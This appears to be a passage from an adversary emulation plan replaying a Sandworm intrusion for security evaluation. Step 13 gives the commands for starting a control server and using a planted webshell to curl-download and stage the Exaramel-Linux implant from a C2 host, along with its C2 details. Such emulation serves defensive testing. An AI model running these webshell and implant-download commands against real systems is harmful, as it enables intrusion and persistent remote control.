 [Source Code](../../Resources/phpWebShell/webShell.php#L35)

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download 

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

## Step 13 - Upload and Execute Exaramel (Linux Variant)

:microphone: `voice track`

Sandworm downloads an ELF executable from the control server using curl.

The ELF executable is an implant based on Exaramel-Linux.

Once downloaded to disk, Sandworm sets Exaramel-Linux's file permissions to read-write-execute.

Finally, Sandworm executes Exaramel-Linux.

Exaramel-Linux establishes HTTPS C2 with the control server.

```
C2 Info

Connects to: 192.168.0.4:8443

Protocol: HTTPS

File write: /var/www/html/centreon_module_linux_app64
```

### :biohazard: Procedures

:warning: Open a new terminal tab (ctrl+shift+t) and start the control server.

Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

```bash
cd wizard_spider/Resources/control_server && sudo ./controlServer
```

:warning: Go back to your P.A.S. webshell terminal.

Execute `curl` to download Exaramel-Linux to `/var/www/html/centreon_module_linux_app64`:

```bash
# P.A.S. Webshell can upload and download files to and from compromised hosts.

curl --insecure "https://10.0.1.5/search.php?cmd=curl+--insecure+https://192.168.0.4/getFile/Exaramel-Linux+-o+centreon_module_linux_app64"
```

Confirm 'centreon_module_linux_app64' downloaded successfully:

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsah"
```
